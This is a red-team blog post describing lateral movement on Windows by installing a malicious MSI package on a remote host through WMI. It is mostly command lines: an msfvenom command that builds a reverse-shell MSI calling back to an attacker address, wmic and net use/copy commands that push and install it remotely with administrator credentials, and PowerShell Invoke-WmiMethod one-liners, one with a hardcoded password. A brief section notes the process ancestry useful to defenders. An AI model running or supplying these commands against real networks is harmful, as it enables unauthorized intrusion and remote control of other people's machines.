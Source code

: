 ```yaml
---
layout: post
title: "2024-06-18-wmi + msi lateral movement"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /wmi-+-msi-lateral-movement/
---
```


---
description: WMI lateral movement with .msi packages
---

# WMI + MSI Lateral Movement

## Execution

Generating malicious payload in MSI (Microsoft Installer Package):

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 17-31-00.png>)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-45-55.png>)

I had to revert to a filthy way of achieving the goal:

{% code title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode %}

![](<../../.gitbook/assets/Peek 2018-10-19 18-41.gif>)

Additionally, the same could of be achieved using powershell cmdlets:

{% code title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode %}

Get a prompt for credentials:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-02-10.png>)

and enjoy the code execution:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-02-48.png>)

Or if no GUI is available for credentials, a oneliner:

{% code title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-19 19-09-42.png>)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-46-37.png>)

and that the connection is initiated by the .tmp file (I ran another test, hence another file name):

![](<../../.gitbook/assets/Screenshot from 2018-10-19 18-55-53.png>)

## References

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}
@spotheplanet
